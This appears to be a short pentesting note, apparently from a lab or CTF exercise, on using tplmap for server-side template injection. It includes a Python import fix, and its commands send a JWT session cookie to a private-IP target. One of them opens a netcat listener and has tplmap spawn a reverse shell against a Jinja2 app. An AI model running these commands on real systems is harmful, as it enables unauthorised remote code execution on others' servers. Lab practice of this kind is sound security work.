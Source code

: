 ##### module 'collections' has no attribute 'Mapping' : 
https://github.com/epinna/tplmap/issues/104
```
hello the solution is go to core/plugin.py and change "import collections" to "import collections.abc" then down in line 21 22 change collections.abc.Mapping instead of collections.Mapping.
```


#### USE

- TEST
```bash
python tplmap.py -c " token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IndpemFyZC5veiIsImV4cCI6MTcwNDUyNzkxOX0.KtuFKaZNjEwUEugH0imfpGGUUld7W_T3IfA94j5pPmY" -u http://192.168.55.13:8080 -e Jinja2 -d "name=QWE&desc=*"
```

- Reverse-Shell
```bash
nc -lvvp 2233
python tplmap.py -c " token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IndpemFyZC5veiIsImV4cCI6MTcwNDUyNzkxOX0.KtuFKaZNjEwUEugH0imfpGGUUld7W_T3IfA94j5pPmY" -u http://192.168.55.13:8080 -e Jinja2 -d "name=QWE&desc=*" --reverse-shell 192.168.55.3 2233
```
